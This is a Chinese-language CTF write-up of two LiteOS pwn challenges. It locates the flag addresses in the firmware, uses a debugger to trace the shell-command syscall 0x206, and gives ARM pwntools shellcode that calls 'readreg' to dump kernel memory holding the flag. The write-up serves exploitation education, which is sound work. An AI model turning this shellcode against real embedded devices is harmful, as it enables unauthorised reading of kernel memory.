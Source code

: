 ```c
➜  grep -r "shell commands" ./
Binary file .//liteos.bin matches
Binary file .//liteos matches
➜  file liteos
liteos: ELF 32-bit LSB executable, ARM, statically linked, not stripped
```

分析两道题目的liteos中的flag地址分别为

- harmodriver_revenge：0x40130580
- drivemecrazy：0x40131580

以harmodriver_revenge为例，在调用`readreg 0x40130580 0x20`进行调试，因为实现在内核，所以将断点打在shell程序的syscall调用(base+0x4510)：

```c
.plt:00004510 syscall 
.plt:00004510 
.plt:00004510      ADRL      R12, 0x4518
.plt:00004518      LDR       PC, [R12,#(off_5164 - 0x4518)]!
```

调试方法如两年前所写：[XCTF华为鸿蒙专场 HARMOFS01](https://xuanxuanblingbling.github.io/ctf/pwn/2020/12/30/harmony/)

![image](https://xuanxuanblingbling.github.io/assets/attachment/huawei/debug.png)

执行`readreg 0x40130580 100`，断点断下，查看参数寄存器，发现shell命令的系统调用号为0x206，命令本身直接用字符串传递：

```c
pwndbg> p /x $r0
$1 = 0x206
pwndbg> x /s $r1
0x242d4aa0:	"readreg"
pwndbg> x /s $r2
0x242d4a80:	"readreg 0x40130580 100"
```

查看libc.so中的syscall函数实现，确认syscall的参数传递符合arm标准，r0,r1传递参数，r7存放系统调用号：

```
.text:0006AB14 syscall
...
.text:0006AB2C            MOV      R7, R0
...
.text:0006AB34            MOV      R0, R1
...
.text:0006AB48            MOV      R1, R2
...
.text:0006AB60            SVC      0
```

所以可以写出调用readreg的shellcode：

```python
from pwn import *
context(arch='arm')

shellcode = asm('''
mov r7,0x206
adr r0,readreg
adr r1,cmd
svc 0

readreg:
.asciz  "readreg"

cmd:
.asciz "readreg 0x40130580 100"
''')
```